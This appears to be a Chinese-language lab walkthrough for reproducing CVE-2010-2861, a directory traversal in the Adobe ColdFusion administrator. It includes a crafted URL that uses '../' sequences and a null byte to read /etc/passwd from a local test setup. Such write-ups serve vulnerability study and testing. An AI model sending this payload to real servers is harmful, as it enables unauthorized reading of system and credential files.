 # CVE-2010-2861

##

访问
http://your-ip:8500/CFIDE/administrator/enter.cfm

![](img/1.png)

> 可以看到初始化页面，输入密码admin，开始初始化整个环境。


## 漏洞复现

1. 访问
```
http://your-ip:8500/CFIDE/administrator/enter.cfm
```
这个页面，构造URL

```

http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
```




